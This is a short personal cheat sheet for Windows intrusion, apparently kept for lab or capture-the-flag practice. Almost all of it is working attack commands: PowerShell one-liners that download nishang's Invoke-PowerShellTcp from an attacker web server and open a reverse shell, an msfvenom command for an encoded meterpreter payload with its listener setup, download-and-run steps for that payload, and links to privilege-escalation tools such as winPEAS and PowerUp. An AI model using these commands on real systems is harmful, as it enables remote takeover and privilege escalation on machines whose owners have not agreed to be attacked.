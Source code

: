# reverses 

## windows ncat binary

https://github.com/andrew-d/static-binaries/raw/master/binaries/windows/x86/ncat.exe


## nishang reverse tcp binary

https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1


Use python2 -m SimpleHTTPServer 8888 : to serve

nc -lvp 4445 : listener

powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://10.10.121.196:8888/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress 10.10.121.196 -Port 4445"

powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.92.19:8080/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.92.19 -Port 4444


## meterpreter 

Generate

msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe

Download

powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.92.19:8080/meter.exe','meter.exe')"
  
Listen

use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 10.10.92.19 set LPORT 4445 run


Start 

Start-Process "meter.exe"
  
  

# Privilege elevation

## winPea
https://github.com/carlospolop/PEASS-ng/releases/download/20221009/winPEASany.exe


## PowerUp 

https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

PS > . .\Powerup.ps1
PS > Invoke-Allchecks  



# Download file

(new-object System.Net.WebClient).DownloadFile('http://www.xyz.net/file.txt','C:\tmp\file.txt')

(new-object System.Net.WebClient).DownloadFile('http://10.10.121.196:8888/winPEASany.exe','C:\Users\bill\Desktop\winPEASany.exe')





